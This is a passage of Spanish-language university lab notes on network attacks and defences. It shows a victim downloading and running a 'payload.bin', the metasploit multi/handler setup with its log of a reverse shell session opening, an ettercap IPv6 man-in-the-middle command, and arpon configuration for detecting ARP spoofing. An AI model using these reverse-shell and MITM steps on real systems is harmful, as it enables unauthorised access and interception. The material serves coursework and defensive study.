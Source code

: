 - Llegados a este punto, desde el cliente vemos la pagina y nos descargamos el virus:
>  `lynx http://example.org`

1. Damos permisos de ejecucion 
> `chmod +x payload.bin`

2. Ejecutamos el virus
> `./payload.bin`

- Finalmente desde el atacante entramos en la consola de metasploit:
> `msfconsole`
```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.48.50
LHOST => 10.11.48.50
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.11.48.50:4444 
[*] Sending stage (36 bytes) to 10.11.49.106
[*] Command shell session 1 opened (10.11.48.50:4444 -> 10.11.49.106:56054) at 2022-11-03 13:55:42 +0100
```
Ahora estamos dentro del cliente desde el atacante.
> [!Note]
> Para salir podemos usar: `msf6 exploit(multi/handler) > exit`

> :question: No entiendo que quieres decir a continuación:

Para comprobar si funciona, en la máquina de la víctima simulamos una descarga del href introducido.

## APARTADO H
Haga un MITM en IPv6 y visualice la paquetería.
> `ettercap -6 -T -q -i ens33 -M arp:remote //2002:a0b:3136::1/ //::10.11.48.1/`

> [!Note]
> El resto funciona como el [segundo apartado](https://github.com/Meleagrista/legislacion-seguridad-informatica/edit/main/practica-2/p2-defensa.md#apartado-b).

## APARTADO I
Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).
> `apt install arpon`
- Para vaciar la tabla arp: `ip -s -s neigh flush all`
> `nano /etc/arpon.conf`
```bash
#
# ArpON configuration file.
#
# See the arpon(8) man page for details.
#
#
# Static entries matching the ens33 network interface:
#
10.11.48.1	    dc:08:56:10:84:b9
10.11.49.51	    00:50:56:97:24:d0
```
- Para saber la dirección mac: `ip addr show`
> `arpon -d -i ens33 -H`
